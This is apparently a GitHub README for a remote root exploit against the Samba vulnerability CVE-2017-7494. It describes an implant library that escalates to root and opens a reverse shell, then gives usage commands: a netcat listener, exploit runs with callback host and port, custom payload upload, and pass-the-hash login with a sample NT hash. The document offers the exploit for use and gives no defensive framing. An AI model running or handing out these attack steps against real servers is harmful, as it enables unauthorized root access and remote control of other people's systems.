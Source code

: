 # CVE-2017-7494

Remote root exploit for the SAMBA CVE-2017-7494 vulnerability.

Now with Pass-the-Hash feature!

## Details

This exploit is divided in 2 parts:

 * First, it compiles a payload called "implant.c" and generates a library (libimplantx32.so or libimplantx64.so) that changes to the root user, detaches from the parent process and spawns a reverse shell.
 * Second, it finds a writeable share in the specified target host, uploads the library with a random name and tries to load it.

As long as the target is vulnerable and the payload is the correct for the target operating system and architecture, the exploit is 100% reliable.

## How to

In your machine, run the following command:

```
$ nc -p 31337 -l
```

Then, run the exploit against your target and wait until it connects back to your Netcat:

```
$ python cve_2017_7494.py -t target_ip
```

If you close too fast the reverse shell, instead of running again the exploit uploading the module, etc... you can just pass the path to the module it already uploaded. Supposing it was uploaded to /shared/directory/ as "module.so", you would run a command like the following one:

```
$ python cve_2017_7494.py -t target_ip -m /shared/directory/module.so
```


## UPDATE 11/25/2017 - Archivaldo

You can now run the exploit again samba 3.5.0 and 3.6.0, you just need add the argument -o 1
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -o 1 
```

You can now use your own custom .so
```
python cve_2017_7494.py -t target_ip -u test -P 123456 -o 1 --custom myso.so
```

In case you need to run this script from a x86 machine, compiling the implant binaries will create two x86 files. Using the flag -n 1 you can disable compilation and copy libimplantx64.so from another machine.
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```

In case samba runs just on port 139. You can set the remote server port using the argument -p
```
python cve_2017_7494.py -t target_ip -p 139 -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```
In case you bump into smbpasswd hashes and can not crack them, You can now you pass-the-hash using the argument --hashes=LM:NT
```
python cve_2017_7494.py -t target_ip -u test --hashes=00000000000000000000000000000000:3DBDE697D71690A769204BEB12283678 --rhost shell_ip
```
